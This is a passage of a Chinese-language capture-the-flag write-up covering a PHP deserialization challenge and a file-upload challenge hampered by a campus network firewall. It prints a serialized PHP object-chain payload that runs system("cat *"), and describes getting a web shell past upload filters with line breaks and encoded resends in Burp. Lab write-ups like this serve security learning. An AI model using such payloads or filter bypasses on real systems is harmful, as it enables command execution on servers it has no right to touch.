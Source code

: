 跑一下得到payload

```php
O:3:"fin":1:{s:2:"f1";O:4:"what":1:{s:1:"a";O:3:"mix":1:{s:2:"m1";O:4:"crow":2:{s:2:"v1";O:3:"fin":1:{s:2:"f1";O:3:"mix":1:{s:2:"m1";s:18:"\nsystem("cat *");";}}s:2:"v2";N;}}}}
```

post传入cmd进行反序列化操作

![image-20220328165226383](https://cdn.jsdelivr.net/gh/0ylan/zhl250/img/image-20220328165226383.png)



f12得到flag

![image-20220328165436356](https://cdn.jsdelivr.net/gh/0ylan/zhl250/img/image-20220328165436356.png)



## 文件上传之校园网拦截

(这个问题真的困扰了我很久，有一段时间甚至都不想再打开burp)

我一度以为是我burp出问题了，想卸了重装一个

后来我试了下别人的burp，还是一样的问题

我就一直增删改减上传内容就想知道咋回事

最后发现是过滤了"php,检测并拦截

以这样我看不懂的形式回显在dashboard的eventlog里

![image-20220402150429898](https://cdn.jsdelivr.net/gh/0ylan/zhl250/img/image-20220402150429898.png)

这里的话我以为是题目环境升级了，把"php给过滤了

之前有题目是通过这样换行给绕过了，也拿到了shell

但是这个好像只限于phtml（本人记不清楚了，但确实有通过这样的方式做出来过题）

![image-20220402151133936](https://cdn.jsdelivr.net/gh/0ylan/zhl250/img/image-20220402151133936.png)

因为当我做了很多文件上传题，都有问题，我就权当是所有的这种文件上传题的环境升级了

但当我这周又做一题文件上传题的时候，我发现这种方式没用了

由于其它题目的启发，我发现如果以爆破的方式进行重发，好像是可以回显200

![image-20220402151423283](https://cdn.jsdelivr.net/gh/0ylan/zhl250/img/image-20220402151423283.png)

检查了下发现是特殊符号被以编码的形式成功重发了

将编码后的内容复制到repeater上发现也是成功了

![image-20220402153148842](https://cdn.jsdelivr.net/gh/0ylan/zhl250/img/image-20220402153148842.png)

关于这个问题我后来去问了我师傅

师傅告诉我是校园网waf拦截了，开流量就行了
